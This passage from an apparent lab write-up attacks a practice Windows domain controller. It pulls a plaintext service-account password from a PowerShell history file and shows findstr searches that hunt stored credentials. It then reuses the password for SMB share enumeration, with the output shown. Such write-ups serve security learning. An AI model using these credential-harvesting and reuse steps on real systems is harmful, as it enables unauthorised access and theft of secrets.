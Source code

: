 ```text
C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

- Folder: 

```windows
C:\windows\tasks
    FolderPerms: Authenticated Users [WriteData/CreateFiles]
   =================================================================================================


    Folder: C:\windows\system32\tasks
    FolderPerms: Authenticated Users [WriteData/CreateFiles]
```	
	

PowerShell History:
```
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
- Password: 
```text
'E3R$Q62^12p7PLlC%KWaxuaV'
```

- Possible Creds? 

```text
svc_deploy : E3R$Q62^12p7PLlC%KWaxuaV
```
- We could also search for certain strings, rather than winpeas:

```cmd
findstr /si ConvertTo-SecureString
```
```cmd
findstr /si Credential
```

## SMB as svc_deploy
```bash
sudo docker run 6cc968e59baa smb 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' --shares


Share           Permissions     Remark
SMB         10.10.11.152    445    DC01             -----           -----------     ------
SMB         10.10.11.152    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.152    445    DC01             C$                              Default share
SMB         10.10.11.152    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.152    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.152    445    DC01             Shares          READ            
SMB         10.10.11.152    445    DC01             SYSVOL          READ            Logon server share
```
